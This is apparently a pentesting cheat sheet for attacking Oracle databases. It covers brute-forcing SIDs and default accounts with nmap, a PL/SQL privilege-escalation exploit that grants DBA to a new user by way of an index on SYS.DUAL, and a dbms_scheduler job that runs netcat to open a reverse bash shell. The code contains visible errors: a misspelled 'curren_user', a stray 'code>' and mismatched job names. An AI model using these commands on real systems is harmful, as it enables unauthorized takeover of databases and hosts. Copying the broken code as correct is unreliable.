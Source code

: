 In the example below the user SCOTT is used but this should be possible with another default Oracle account.

##### Identify default accounts within oracle db using NMAP NSE scripts:

```
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
```

Login using the identified weak account (assuming you find one).

##### How to identify the current privilege level for an oracle user:

```
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```

##### Oracle priv esc and obtain DBA access:

Run netcat: `netcat -nvlp 443`code>

```
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

##### Run the exploit with a select query:

```
SQL> Select * from session_privs; 
```

You should have a DBA user with creds user1 and pass1.

Verify you have DBA privileges by re-running the first command again.

##### Remove the exploit using:

```
drop index exploit_1337; 
```

##### Get Oracle Reverse os-shell:

```
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```
